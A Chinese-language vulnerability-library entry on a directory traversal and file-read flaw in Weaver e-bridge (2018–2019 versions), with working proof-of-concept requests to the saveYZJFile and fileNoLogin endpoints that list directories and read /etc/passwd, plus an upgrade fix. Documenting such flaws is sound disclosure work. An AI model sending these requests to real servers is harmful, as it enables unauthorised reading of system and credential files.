 ```yaml
---
title: '泛微云桥e-bridge 目录遍历/文件读取漏洞'
date: Mon, 21 Sep 2020 01:12:13 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞信息:

泛微云桥是一个为了满足用户提出的阿里钉钉与泛微OA集成需泛微0A云桥e-bridge 其 /wxjsapi/saveYZJFile 接口可以读取文件内容并保存，而后可通过/file/fileNoLogin/{id}，读取文件内容。

#### 影响范围:

主要影响 2018-2019 版本

#### 漏洞复现:

如果使用POC回显**`"无法验证您的身份！"`**证明改漏洞已被修复
 **POC中，当downloadUrl的路径为文件夹的时候结果为目录遍历  linux windows 通用**
 Windows POC：

```html
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt #查看页面中的id值
```

![img](泛微云桥e-bridge 目录遍历文件读取漏洞/1913098-20201121233209437-1297218164.png)

```
/file/fileNoLogin/<id> #访问文件接口，根据上一步获取的id对文件内容进行读取
```

![img](泛微云桥e-bridge 目录遍历文件读取漏洞/1913098-20201121233253572-1802764402.png)

如果提示`msg "/C: (No such file or directory)" `就表示为Linux系统（表示不存在C盘）
 Linux POC：

```html
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
/file/fileNoLogin/<id> #访问文件接口，根据上一步获取的id对文件内容进行读取
```

### 04 实例

Linux系统主目录（根目录）
 ![img](泛微云桥e-bridge 目录遍历文件读取漏洞/1913098-20201121234212131-625392001.png)
 Linux中/ect/passwd文件
 ![img](泛微云桥e-bridge 目录遍历文件读取漏洞/1913098-20201121234407372-1517558070.png)

#### 修复方案:

尽快升级到最新版本